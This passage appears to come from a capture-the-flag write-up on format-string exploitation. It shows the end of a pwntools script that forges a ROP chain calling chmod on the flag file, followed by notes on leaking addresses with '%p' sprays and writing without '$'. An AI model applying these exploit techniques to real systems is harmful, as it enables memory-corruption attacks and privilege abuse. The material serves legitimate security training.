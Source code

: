 ```python
    print(f'pop_rdi_ret: {hex(pop_rdi_ret)} pop_rsi_ret: {hex(pop_rsi_ret)} chmod: {hex(chmod_addr)}')

    # Phase 3 - Forge ROP
    # We'd like to overwrite within a single printf call all 6 qwords, starting from the return address of printf. 
    print(f'writing {hex(pop_rdi_ret)} to {hex(printf_ret_addr)}')
    write_addrs(p0, payload_size, rsp_to_format_offset, 
    addresses=[printf_ret_addr, printf_ret_addr + 8, printf_ret_addr + 0x10, printf_ret_addr + 0x18, printf_ret_addr + 0x20, flag_addr], 
    values=[pop_rdi_ret, flag_addr, pop_rsi_ret, 0xffff, chmod_addr, 0x67616c662f2f], 
    prefix_string_size=prefix_string_size)

    p0.interactive()
    

if __name__ == '__main__':
    main()
```

Notice that challenge 12 is similar to 11, but disallows `$` as a character within the payload. Hence, I've implemented the generic method to be not-dependent upon the `$` sign. \
We can trivially leak libc, stack and PIE addresses - by just sending a large, `"%p " * 0x100` format string. \
Writing shouldn't be hard either, as we've already implemented the generic multiple-write. All we have to adapt is moke-reading of `position` parameteres off the stack. 

## Stack Snapshoting

Using `$` in a format string can cause stack values to be snapshotted inside `printf`.  This behavior prevents us from writing a pointer and accessing that pointer in a single `printf` call. \
If `$` is not included in the format string, this behavior isn't trigerred. That might be good motivation for challenge 12. 

TODO: write more about its internals. 

Notice `pwntools` exports the option to craft exploiting format strings, even without `$`, via `fmtstr_payload`.
